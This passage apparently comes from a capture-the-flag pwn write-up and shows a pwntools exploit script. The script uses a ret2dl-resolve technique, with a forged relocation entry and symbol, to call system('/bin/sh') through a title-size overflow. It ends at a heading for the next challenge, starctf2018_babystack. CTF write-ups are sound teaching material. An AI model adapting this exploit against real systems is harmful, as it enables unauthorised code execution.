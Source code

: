 ```bash

fake_read_reloc = flat([read_got, r_info])

payload = '\x00'*0x400
payload += p32(plt0)
payload += p32(index_offset)
payload += 'aaaa'
payload += p32(base_stage + 80) 
payload += fake_read_reloc
payload += 'a'*align
payload += fake_read_sym
payload += 'system\x00'
payload += 'a' * (80 + 0x400-len(payload))
payload += '/bin/sh\x00'
payload += 'U'*(100 - len(payload))
sa('Give your postscript : ',payload)
sla('Give your notebook size : ',str(1024*130))
overflow_len = 0x216FC
sla('Give your title size : ',str(overflow_len))
sla('invalid ! please re-enter :','1')
sa('Give your title : ','a')
sa('Give your note : ','a'*4)
itr()
```

[![](assets/1700528976-c08a4c368e30d7612a6c0c5260f48d15.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119164335-ba1acadc-86b7-1.png)

### starctf2018\_babystack

